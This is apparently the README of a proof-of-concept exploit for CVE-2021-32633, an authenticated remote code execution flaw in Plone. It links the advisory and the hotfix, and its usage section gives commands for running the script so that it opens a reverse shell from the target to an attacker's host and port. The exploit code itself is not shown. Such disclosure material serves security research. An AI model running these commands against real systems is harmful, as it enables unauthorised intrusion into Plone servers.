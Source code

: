 # CVE-2021-32633

Title: [Authenticated] Remote Code Execution via traversal in TAL expressions  
Writeup: https://cyllective.com/blog/post/plone-authenticated-rce-cve-2021-32633/  
Advisory: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-32633  
Plone Hotfix: https://plone.org/security/hotfix/20210518  
Affected versions: `< 5.2, < 4.6`  
Patched versions: `5.2, 4.6`  


## Usage

This PoC will spawn a reverse shell back to `-H`:`-P`.

```
usage: poc.py [-h] -t TARGET -u USERNAME -p PASSWORD -H HOST -P PORT

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
  -u USERNAME, --username USERNAME
  -p PASSWORD, --password PASSWORD
  -H HOST, --host HOST
  -P PORT, --port PORT
```


```
python3 poc.py -t '<target host>/<plone site name>' -u username -p password -H <src host> -P <src port>

python3 poc.py -t http://127.0.0.1/Plone -u username -p password -H 10.0.0.1 -P 9999
```
